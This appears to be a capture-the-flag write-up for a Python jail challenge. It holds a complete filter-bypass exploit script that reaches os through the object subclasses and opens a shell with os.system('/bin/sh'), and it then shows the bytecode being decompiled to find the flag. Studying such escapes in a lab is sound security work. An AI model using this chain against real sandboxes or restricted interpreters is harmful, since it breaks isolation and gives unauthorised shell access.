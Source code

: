 # Hell of a Jail

### TL;DR
- Circumvent the input filter
- Retreive the source code using deep python object inspection
- Reverse the source and find the flag

### Input filter

Try to type few commands and you will seen soon that you're limited to 14 input characters, but we can assign variables.

Obviously, there's an input filter taking out characters like `__` `.` and `"` but we can use the filtering order to circumvent the filter.

Let's try to combine characters like `_._` and we get `__`. For `.` filtering, we can use python builtin `getattr(object, "attribute")` which is equivalent to `object.attribute`.

Now we can start making an exploit...

### Exploiting

In every python jail, you want to access subclasses of base object. Let's do this localy first, open your favorite python interpreter and type :

`().__class__.__base__.__subclasses__()`

You get an array of subclasses. But now we want to try on the jail acknowledging the filter which gives something like that.

```python
a=()
b='_._class'
b+='_._'
a=getattr(a,b)
b='_._base_._'
a=getattr(a,b)
b='_._subclas'
b+='ses_._'
a=getattr(a,b)
a=a()
```

Have you noticed `<class '_frozen_importlib.BuiltinImporter'>` at index 80. Let's try to import a module like `os`.

Go back to your local shell and try :

`().__class__.__base__.__subclasses__()[80].load_module('os')`

Which gives us `<module 'os' (built-in)>`

So now we can import `os` module. We can get a shell with `os.system('/bin/sh')` and find the source code.


### Full shell exploit example

```python
a=()
b='_._class'
b+='_._'
a=getattr(a,b)
b='_._base_._'
a=getattr(a,b)
b='_._subclas'
b+='ses_._'
a=getattr(a,b)
a=a()[80]
b='load'
b+='_module'
a=getattr(a,b)
o=a('os')
b='system'
c='/bin/sh'
s=getattr(o,b)
s(c)
```

### The flag

Ok, we now have a shell but where's the flag ? The PyJail is actualy python3.7 bytecode. Let's have a look at it :
- First, we retreive it throw the console with : `base64 jail.pyc` as bytecode contains special characters.
- We use something like `uncompile6` to make it human readable.
- We find out that the flag was in fact inside an environment variable `0f4d0db3668dd58cabb9eb409657eaa8`. We use `env` inside the shell and we get it.
